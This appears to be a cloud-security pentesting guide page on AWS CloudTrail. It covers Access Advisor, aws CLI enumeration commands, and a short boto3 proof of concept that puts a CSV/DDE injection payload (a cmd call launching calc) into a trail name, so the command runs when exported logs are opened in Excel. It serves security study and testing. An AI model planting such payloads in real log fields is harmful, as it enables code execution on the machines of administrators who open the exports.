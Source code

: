 ## Access Advisor

AWS Access Advisor relies on last 400 days AWS **CloudTrail logs to gather its insights**. CloudTrail captures a history of AWS API calls and related events made in an AWS account. Access Advisor utilizes this data to **show when services were last accessed**. By analyzing CloudTrail logs, Access Advisor can determine which AWS services an IAM user or role has accessed and when that access occurred. This helps AWS administrators make informed decisions about **refining permissions**, as they can identify services that haven't been accessed for extended periods and potentially reduce overly broad permissions based on real usage patterns.

{% hint style="success" %}
Therefore, Access Advisor informs about **the unnecessary permissions being given to users** so the admin could remove them
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

## Actions

### Enumeration

```bash
# Get trails info
aws cloudtrail list-trails
aws cloudtrail describe-trails
aws cloudtrail list-public-keys
aws cloudtrail get-event-selectors --trail-name <trail_name>
aws [--region us-east-1] cloudtrail get-trail-status --name [default]

# Get insights
aws cloudtrail get-insight-selectors --trail-name <trail_name>

# Get data store info
aws cloudtrail list-event-data-stores
aws cloudtrail list-queries --event-data-store <data-source>
aws cloudtrail get-query-results --event-data-store <data-source> --query-id <id>
```

### **CSV Injection**

It's possible to perform a CVS injection inside CloudTrail that will execute arbitrary code if the logs are exported in CSV and open with Excel.\
The following code will generate log entry with a bad Trail name containing the payload:

```python
import boto3
payload = "=cmd|'/C calc'|''"
client = boto3.client('cloudtrail')
response = client.create_trail(
	Name=payload,
	S3BucketName="random"
)
print(response)
```
